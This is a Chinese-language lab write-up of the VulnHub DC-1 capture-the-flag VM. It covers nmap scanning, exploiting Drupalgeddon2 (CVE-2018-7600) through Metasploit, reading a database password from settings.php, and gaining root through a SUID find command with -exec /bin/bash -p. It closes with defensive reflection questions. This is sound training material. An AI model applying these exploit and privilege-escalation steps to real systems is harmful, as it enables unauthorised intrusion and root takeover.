# 实验目的

熟悉 Web 应用漏洞（特别是 CMS 漏洞）的识别与利用方法。

熟练使用 Nmap、WhatWeb、Metasploit、Find 等常用渗透工具。

理解 Linux 系统中 SUID 权限机制及其在本地提权中的滥用风险。

培养“攻击者视角 + 防御者思维”的双重安全意识。

# 实验原理

信息搜集

通过 nmap 发现靶机 IP 并识别开放端口与服务；利用 whatweb 快速确认 Web 应用为 Drupal 7。

远程代码执行（RCE）

利用 Drupal 7.54 存在的 CVE-2018-7600（Drupalgeddon2） 漏洞，通过 Metasploit 实现无需认证的远程命令执行，获得 www-data 权限的初始 Shell。

敏感信息泄露

读取 Drupal 配置文件 /var/www/sites/default/settings.php，直接获取数据库明文密码，体现配置文件管理不当的安全风险。

本地提权（SUID 滥用）

利用系统中被故意设置为 SUID root 的 /usr/bin/find，通过 -exec 执行 /bin/bash -p，实现从 www-data 到 root 的权限提升。

目标取证与安全反思

查找并分析  Flag（分别位于 Web 目录、用户目录、数据库和 root 家目录），每个 Flag 对应一个典型安全缺陷，强调“攻防一体”的安全思维。

本实验完成了渗透测试流程：信息搜集 → 漏洞识别 → 漏洞利用 → 权限提升 → 目标取证。

# 实验环境

实验环境信息表

DC-1 靶机下载地址：https://download.vulnhub.com/dc/DC-1.zip。

DC-1简介：DC-1 是 VulnHub 平台上非常经典且适合初学者的渗透测试靶机（Capture The Flag, CTF）。它由用户 DCAU 制作，旨在帮助安全爱好者练习基础的 Web 渗透、Linux 提权和内网信息收集技能。

Kali 与 DC-1 在 同一 VMware 网络，DC-1 已启动并联网（可通过 VMware 控制台查看其 IP，或等待自动分配）。

# 实验内容与步骤

## 步骤 1：确定 DC-1 的 IP 地址

目标：找到靶机在局域网中的 IP

在 Kali 终端中查看本机 IP：

ip a

找到接口eth0的IP信息，本机IP地址为192.168.132.128/24 ，说明本机IP地址为192.1在 192.168.132.0/24 网段。如下图所示。



扫描整个子网，发现活跃主机：

nmap -sn 192.168.132.0/24

参数说明：

-sn：No port scan，不进行端口扫描，仅执行主机发现。

预期输出：

判断依据：


00:0C:29 开头的 MAC 是 VMware 虚拟机（非 Kali）

排除 .1（网关）、.254（VMware DHCP），中间 IP（如 .129）极可能是 DC-1

记下该 IP，后续用 <TARGET_IP> 代替（例如 192.168.132.129）

若只看到两个 IP（Kali 和网关），说明 DC-1 未联网。

解决方法：在 VMware 中重启 DC-1，或进入其控制台按回车激活网络。

## 步骤 2：全面端口与服务扫描

目标：识别开放端口、服务版本、Web 指纹

nmap -sV -sC -p- -T4 192.168.132.129 -oN dc1_full_scan.txt

参数说明：

-sV：探测服务版本（如 Apache 2.4.10）

-sC：运行默认 NSE 脚本（如 http-title）

-p-：扫描全部 65535 个端口

-T4：快速扫描（适合内网）

-oN：保存结果到文件

预期关键输出：

确认 Web 服务运行 Drupal。如果 80 端口未开，请检查 DC-1 是否完全启动（等待 2 分钟再扫）


## 步骤 3：确认 CMS 类型与版本

whatweb 命令的主要功能之一就是识别网站使用的技术栈（包括 CMS、框架、服务器、语言等）。CMS （Content Management System，内容管理系统）是一种让你不用写代码，就能轻松创建、管理和发布网站内容的软件。CMS 相当于网站的“操作系统” + “后台管理面板”。

常见的 CMS 如下表所示。

CMS信息表

whatweb http://192.168.132.129



明确显示 Drupal 7，不同 CMS 有不同漏洞，Drupal 7 有 Drupalgeddon2。知道是 Drupal → 直接搜 CVE-2018-7600，基本漏洞信息如下表。



Drupal中带有默认或通用模块配置的多个子系统存在安全漏洞。远程攻击者可利用该漏洞执行任意代码。以下版本受到影响：Drupal 7.58之前版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

## 步骤 4：利用 Drupalgeddon2 漏洞（CVE-2018-7600）

目标：获得反向 shell（www-data 权限）

操作（使用 Metasploit）：

启动 Metasploit：

msfconsole

搜索 Drupal 7 漏洞模块，在Metasploit 中搜索 CVE-2018-7600：

msf>search drupal 7

找到模块：exploit/unix/webapp/drupal_drupalgeddon2（编号可能不同，记准名称）。



# 加载漏洞模块：

msf> use exploit/unix/webapp/drupal_drupalgeddon2



# 设置靶机IP和端口：

msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.132.129



# 设置目标端口

msf exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 80



# 运行漏洞利用

执行攻击：

msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit

预期成功输出：

你已获得 Meterpreter 会话，当前用户是 www-data


若失败：

检查 LHOST 是否为 Kali 的真实 IP（不是 127.0.0.1）

确保防火墙未阻止 4444 端口（Kali 默认允许）

尝试 set PAYLOAD linux/x86/meterpreter/reverse_tcp（32位系统）

## 步骤 5：获取数据库凭证

目标：读取 Drupal 配置文件，提取数据库密码

操作：

meterpreter > shell

进入普通 shell 后：

#输入：whoami

# 输出：www-data



查询setting.php的内容

cat /var/www/html/sites/default/settings.php | grep -A5 -B5 password

如果出现No such file or directory则使用find命令全局查找。如图所示。



find / -name settings.php 2>/dev/null



输出/var/www/sites/default/settings.php，说明settings.php在目录/var/www/sites/default/下。

输入下面的命令

cat /var/www/sites/default/settings.php

可以看到关于database的信息



数据库密码为R0ck3t，此密码可用于尝试 SSH 登录（ssh dbuser@<TARGET_IP>）连接 MySQL（若开放 3306 端口）。但 DC-1 通常不开放 SSH 给 dbuser，所以此步主要用于理解“凭证复用”风险。

## 步骤 6（可选）：尝试 SSH 登录

# 在 Kali 新终端执行

ssh dbuser@<TARGET_IP>

# 输入密码：R0ck3t

若成功：获得交互式 shell，便于操作



若登录失败（Permission denied），继续使用 Meterpreter

## ⚔️ 步骤 7：本地提权（Privilege Escalation）

目标：从 www-data 提权到 root

操作：

在 shell 中，查找 SUID 文件：

find / -perm -4000 2>/dev/null

2>/dev/null 用于屏蔽“Permission denied”错误

观察输出，寻找可疑项：



重点关注 /usr/bin/find（标准 Linux 工具，但被设为 SUID）

利用 find 执行 root shell：

/usr/bin/find . -exec /bin/sh -p \; -quit

-p 参数保留特权（privileged mode），绕过权限降级



出现错误“/bin/sh: 0: Illegal option -p”说明 /bin/sh 是 dash（Debian Almquist shell），它不支持 -p 参数。这是在 Debian 7 / DC-1 靶机中非常常见的情况。

解决方法：

步骤 1：确认系统是否有 bash

ls -l /bin/bash

如果输出类似：

-rwxr-xr-x 1 root root 941252 Oct 27  2016 /bin/bash

步骤 2：改用 /bin/bash -p 提权

/usr/bin/find . -exec /bin/bash -p \; -quit

成功后用输入whoami后回车，应输出：root。

输入id查看显示当前用户的身份信息。

id

# 应包含 euid=0(root)，表示当前有效用户 ID（Effective UID），当前进程以 root 权限运行！

你现在是 root 用户！如下图所示。



/usr/bin/find 被设置为 SUID root（权限 -rwsr-xr-x）

当 www-data 用户运行它时，系统会：

保留真实身份：uid=33

临时赋予 root 权限：euid=0

使用 bash -p（privileged mode）可防止 bash 自动降权，从而保留 euid=0

原理：SUID 程序以文件所有者权限运行。find 属于 root，因此 -exec 可执行任意命令作为 root。

## 步骤 8：查找并读取所有 Flag

DC-1 共有 5 个 flag，分布在不同位置：

Flag 1：Web 根目录

cat /var/www/html/flag1.txt

运行命令，出现



说明 flag1.txt 不在 /var/www/html/ 路径下。这和之前 settings.php 的问题一样——DC-1 的 Web 根目录不是 /var/www/html，而是 /var/www。

解决方法：执行命令ls -l /var/www/，可以看到



flag1.txt在/var/www目录下。输入命令cat /var/www/flag1.txt，结果如下。



Flag 2：用户目录（通常为 /home/flag2）

cat /home/flag2/flag2.txt



用find / -name "flag*.txt" 2>/dev/null搜索所有的flag.txt。2>/dev/null 用于屏蔽“Permission denied”等错误信息，只显示结果。



用cat输出flag4.txt



flag4.txt的内容提示，用样的方法在目录/root找到flag.txt。说明某个flag文件在/root下，当前用户已提权为root，用命令ls -la /root/查看目录下的文件信息。



最后的文件thefinalflag.txt就是flag5.txt，用cat查看。



至此，我们完成了DC-靶机实验，DC-1是一个面向初学者的渗透测试训练靶机，其教学目标是通过一个真实但安全的环境，完整走通一次典型的 Web 渗透流程：信息搜集 → 漏洞识别 → 远程代码执行 → 凭证获取 → 本地提权 → 目标取证。

具体分解为以下 5 个关键阶段：

最终目标不是“拿到 root”，而是“理解每个 flag 背后的安全教训”。实验步骤大致总结入下：

通过本实验，我们掌握了：

恭喜你完成了 DC-1 的渗透实验！但这仅仅是DC 系列安全学习旅程的起点。该系列还包括 DC-2、DC-4、DC-5、DC-6、DC-8、DC-9 等多个精心设计的靶机（注：DC-3 与 DC-7 未发布），每个都模拟了不同场景下的真实安全缺陷，难度逐级递进，覆盖更广泛的攻击技术与防御盲点。下表是各靶机的简要介绍。

请根据自身的兴趣选择一个或多个靶机完成渗透测试。

# 问题与思考

思考题 1：漏洞利用与版本识别

问题：在本次实验中，我们使用 whatweb 识别出目标网站使用的是 Drupal 7，并据此利用了 CVE-2018-7600（Drupalgeddon2）漏洞。

请思考：

为什么必须准确识别 CMS 及其版本？

漏洞具有针对性

不同 CMS、不同版本存在的漏洞完全不同，只有准确识别出具体 CMS 名称与版本号，才能找到对应的可利用漏洞，避免盲目攻击。

避免攻击失效

错误的 CMS 或版本会导致漏洞利用失败，甚至触发防护机制、造成业务中断。

提高渗透效率

精准识别可以快速定位漏洞入口，缩短信息搜集与漏洞验证时间。

保证渗透合法性与安全性

明确目标环境与版本，才能选择合规、可控的漏洞进行测试，避免误操作。

如果目标是 Drupal 8 或 WordPress，还能使用相同的漏洞模块吗？为什么？

不能使用同一个漏洞模块。

原因如下：

漏洞与产品、版本强绑定

CVE-2018-7600（Drupalgeddon2）是仅针对 Drupal 7 特定版本的远程代码执行漏洞，代码结构、触发点、利用方式都只适配 Drupal 7。

Drupal 8 与 Drupal 7 架构不同

Drupal 8 底层重构，漏洞入口、函数调用、权限机制都不一样，该模块无法识别、无法利用。

WordPress 是完全不同的 CMS

WordPress 代码结构、路由、插件机制与 Drupal 无关，不存在该漏洞，模块无法运行。

Metasploit 模块是专用的

该模块exploit/unix/webapp/drupal_drupalgeddon2是专门为 Drupal 7 编写，不兼容其他 CMS 或版本。

思考题 2：提权机制与系统配置

我们通过 /usr/bin/find 的 SUID 权限成功提权至 root。

请思考：

什么是 SUID？为什么 find 会被设置为 SUID？

什么是 SUID

SUID 是 Linux 的一种特殊权限位，作用是：当普通用户执行带有 SUID 权限的程序时，进程会临时拥有该程序所有者的权限。

在 DC‑1 中，/usr/bin/find 属于 root，且被设置了 SUID，所以普通用户运行它时会临时获得 root 权限。

为什么 find 会被设置为 SUID

正常 Linux 系统中，find 不应该有 SUID 权限。

DC‑1 是教学靶机，是故意把 /usr/bin/find 设置为 SUID root，用于演示 SUID 提权 漏洞。

真实环境中，一般是管理员误配置、权限过大、脚本自动设置不当导致。

从系统管理员角度，如何防止此类提权攻击？

严格检查并清理不必要的 SUID/SGID 文件

定期扫描系统，删除不必要的 SUID 权限，特别是 find、passwd、chmod、bash 等工具。

最小权限原则

给程序、服务、用户分配刚好够用的权限，不赋予多余的高权限，Web 服务禁止使用 root 运行。

禁止关键工具设置 SUID

禁止 find、awk、python、bash、nc 等可执行命令拥有 SUID 权限。

使用系统监控工具

通过 auditd 等工具监控文件权限变更，异常提权行为及时告警。

及时更新系统与补丁

修复内核与系统工具漏洞，减少提权入口。

使用安全加固规范

遵循等保、服务器加固规范，关闭不必要功能、限制敏感目录权限。

思考题 3：信息泄露与安全开发

我们通过读取 /var/www/sites/default/settings.php 获取了数据库密码 R0ck3t。

请思考：

该文件为何能被 Web 用户（www-data）读取？这反映了什么安全问题？

能被读取的原因

settings.php 是 Drupal 的数据库配置文件，文件权限设置过宽，Web 服务运行用户 www-data 对其拥有可读权限，因此攻击者拿到 Web 权限后可直接读取。

反映的安全问题

配置文件权限管理不当，敏感文件未设置最小可读权限。

敏感信息明文存储，数据库密码直接写在文件中，无加密。

安全开发意识不足，未对核心配置文件做访问限制。

部署安全缺失，生产环境未做权限加固，留下信息泄露入口。

作为开发者，应如何安全地管理数据库凭证？

严格控制文件权限

将配置文件权限设为 600，仅允许文件所有者读取，禁止 www-data 等低权限用户访问。

禁止明文存储密码

使用加密配置、环境变量或密钥管理工具，不把密码硬编码在代码或配置文件中。

使用环境变量存储敏感信息

把数据库账号密码放到系统环境变量，程序运行时读取，不提交到代码仓库。

使用专业密钥管理服务

生产环境使用 Vault、KMS 等密钥管理系统，统一安全存储与调用凭证。

配置文件移出 Web 目录

不要把 settings.php 放在 /var/www 等可访问目录，避免被直接下载或读取。

代码仓库过滤敏感配置

不上传含密码的配置文件到 Git，避免源码泄露导致凭证外泄。

使用独立权限的数据库账号

给 Web 应用分配最小权限数据库账号，仅开放必要权限，降低泄露风险。

| 组件 | 说明 |
| 攻击机 | Kali Linux（建议版本 ≥ 2023.4），IP 地址通过 ip a 查看（如 192.168.10.130） |
| 靶机 | DC-1（Vulnhub 镜像），网络模式为 Host-only 或 NAT，确保与 Kali 在同一网段 |
| 软件依赖 | Nmap、Metasploit Framework、Searchsploit |

| CMS名称 | 主要用途 | 市场占有率（全球） |
| WordPress | 博客、企业站、电商 | ≈43% 的网站都在用 |
| Drupal | 政府、大学、大型社区 | 安全性高，较复杂 |
| Joomla | 中小型企业网站 | 功能介于 WP 和 Drupal 之间 |
| Magento | 专业电商平台 | 适合大型电商（如 Nike 曾用） |
| DedeCMS / EmpireCMS | 中文网站常用 | 国内较多 |

| 阶段 | 目标 | 对应技能 |
| 1. 信息搜集 | 发现靶机 IP，识别 Web 服务和 CMS | nmap, whatweb |
| 2. Web 漏洞利用 | 利用 Drupal RCE 漏洞获得初始 shell | Metasploit, CVE-2018-7600 |
| 3. 数据库凭证获取 | 读取 settings.php 获取数据库密码 | 文件读取、配置分析 |
| 4. 本地提权 | 从 www-data 提权至 root | SUID 滥用（find） |
| 5. 全 flag 查找 | 找到并理解所有  flag 的含义 | 系统探索、逻辑推理 |

| 步骤 | 操作 |
| 1. 找到靶机 IP | nmap -sn 192.168.132.0/24 → 定位 192.168.132.129 |
| 2. 识别 Drupal 7 | whatweb http://... → 确认 CMS |
| 3. 利用 Drupalgeddon2 | msfconsole + drupal_drupalgeddon2 → 获得 www-data shell |
| 4. 读取 settings.php | find / -name settings.php → 获取密码 R0ck3t |
| 5. 本地提权 | /usr/bin/find . -exec /bin/bash -p \; -quit → 成功 root |
| 6. 找到所有 flag | /var/www/flag1.txt /home/flag4/flag4.txt /root/thefinalflag.txt |

| 技能 | 应用场景 |
| 使用 nmap/whatweb 快速指纹识别 | 信息搜集阶段必备 |
| 利用公开漏洞（CVE）自动化攻击 | Metasploit 实战 |
| 从 Web 应用配置中提取敏感信息 | 配置文件泄露风险 |
| 利用 SUID 二进制提权 | Linux 本地提权经典手法 |
| 不依赖文件名，主动探索系统 | 渗透思维 vs 机械操作 |

| 阶段 | 靶机 | 核心技能提升 |
| 入门巩固 | DC-1 | Web RCE（Remote Code Execution）、配置泄露、SUID 提权 |
| 认证与爆破 | DC-2 | 用户枚举、Hydra 密码爆破、WordPress 后台利用 |
| 手动利用 | DC-4 | OS 命令注入、定时任务提权、Shell 逃逸 |
| 文件包含 | DC-5 | LFI（本地文件包含）、日志投毒、反向 Shell 构建 |
| 协议与密钥 | DC-6 | SSH 弱密钥、邮件信息泄露、权限绕过 |
| 内核提权 | DC-8 | Joomla RCE、Dirty COW 内核漏洞利用 |
| 多层跳板 | DC-9 | SQL 注入 → LFI → SMB 共享 → 多用户提权 |